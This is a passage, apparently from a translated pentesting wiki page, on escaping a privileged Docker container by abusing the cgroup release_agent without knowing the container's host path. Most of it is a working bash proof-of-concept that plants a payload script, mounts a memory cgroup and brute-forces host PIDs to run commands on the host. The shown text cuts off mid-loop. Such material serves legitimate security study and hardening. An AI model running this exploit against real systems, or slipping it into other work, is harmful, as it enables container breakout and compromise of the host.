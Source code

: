 Pronađite **objašnjenje tehnike** u:

{% content-ref url="docker-release_agent-cgroups-escape.md" %}
[docker-release\_agent-cgroups-escape.md](docker-release\_agent-cgroups-escape.md)
{% endcontent-ref %}

#### Privilegovano bežanje zloupotrebom release\_agent-a bez poznavanja relativne putanje - PoC3

U prethodnim eksploatacijama **otkrivena je apsolutna putanja kontejnera unutar datotečnog sistema domaćina**. Međutim, to nije uvek slučaj. U situacijama kada **ne znate apsolutnu putanju kontejnera unutar domaćina**, možete koristiti ovu tehniku:

{% content-ref url="release_agent-exploit-relative-paths-to-pids.md" %}
[release\_agent-exploit-relative-paths-to-pids.md](release\_agent-exploit-relative-paths-to-pids.md)
{% endcontent-ref %}

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
```